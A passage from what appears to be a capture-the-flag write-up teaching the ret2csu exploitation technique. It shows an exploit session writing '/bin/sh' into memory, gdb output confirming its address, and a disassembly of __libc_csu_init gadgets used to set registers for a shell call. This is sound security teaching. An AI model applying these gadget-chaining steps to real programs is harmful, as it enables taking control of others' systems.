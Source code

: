Continuing the process, let's enter the `/bin/sh` string:-

```asm
[*] Switching to interactive mode
$ /bin/sh
```

Well, back to `gdb`:-

```asm
gef➤  
gef➤  c
Continuing.

Thread 1 "chall" received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]


-- snip -- 

───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x7ffdd9adec00 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffdd9adec00 → add DWORD PTR [rax], eax
──────────────────────────────────────────────────────────────────────────────────────────────────────────
0x00007ffdd9adec00 in ?? ()
gef➤  x/s 0x601150
0x601150:	"/bin/sh"
```

Great, we stored the string `"/bin/sh"` at the `0x601150`.
### The `ret2csu` technique

We are finally at the main part of this blog post, this is where I will explain the technique very thoroughly, so be sure to pay attention. But, it is time for some code analysis of the gadgets we are going to use:-

```asm
gef➤  disas __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   
   -- snip -- 

   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
   0x0000000000400679 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040067d <+77>:	add    rbx,0x1
   0x0000000000400681 <+81>:	cmp    rbp,rbx
   0x0000000000400684 <+84>:	jne    0x400670 <__libc_csu_init+64>
   0x0000000000400686 <+86>:	add    rsp,0x8
   0x000000000040068a <+90>:	pop    rbx
   0x000000000040068b <+91>:	pop    rbp
   0x000000000040068c <+92>:	pop    r12
   0x000000000040068e <+94>:	pop    r13
   0x0000000000400690 <+96>:	pop    r14
   0x0000000000400692 <+98>:	pop    r15
   0x0000000000400694 <+100>:	ret    
End of assembler dump.
```
